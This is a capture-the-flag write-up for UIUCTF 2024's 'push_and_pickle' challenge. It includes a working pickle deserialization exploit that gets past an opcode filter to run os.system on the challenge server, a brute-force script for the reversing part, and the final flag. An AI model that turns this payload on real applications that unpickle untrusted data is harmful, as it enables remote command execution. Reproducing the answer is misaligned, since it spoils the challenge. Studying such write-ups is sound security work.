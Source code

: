 ```yaml
---
layout: post
title:  "push_and_pickle - UIUCTF 2024"
date:   2024-06-29 00:00:00 -0400
---
```


https://ctftime.org/event/2275

# push_and_pickle (misc)

pickle deserialization task with two parts


## Solution
The first part filters the global and global_stack opcodes `c` and `\x93`
So if you are writing python then converting it to pickle it will be pretty hard to bypass the check.
Thankfully there is a tool called `pickleassem` that lets you write python assembly kinda like pwn shellcraft

# part1
```python
import pickle
import pickletools
import base64

from pwn import *

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat chal.py')
pa.build_inst('os', 'system')
payload = pa.assemble()
enc = base64.b64encode(payload).decode()
print(enc)

p = remote('push-and-pickle.chal.uiuc.tf', 1337, ssl=True)
p.sendline(enc)
p.interactive()
```

The second part is just a reversing challenge and you can skip most of it by using:
- radare with the pickle plugin
- uncompyle6 with python version < 3.9

solution part2
```python
flag = "lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8"
guess = "uiuctf{bbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}"

def replace_str_index(text,index=0,replacement=''):
    return f'{text[:index]}{replacement}{text[index+1:]}'

def arg1(x, b):
    idx = x[0]
    return ord(x[1]) == (ord(b[idx]) + 2 * (idx + 97)) % 203
arg2 = enumerate(flag)

flag = ""
for item in arg2:
    for k in range(64):
        for i in range(256):
            char = chr(i)
            ret = arg1(item, replace_str_index(guess, k, char))
            if ret == True:
                flag = flag + char
                break

print(flag)
```

## Flag
`uiuctf{N3Ver_Und3r_3stiMate_P1ckles!e2ba24}`

shafouz 2024/06/28
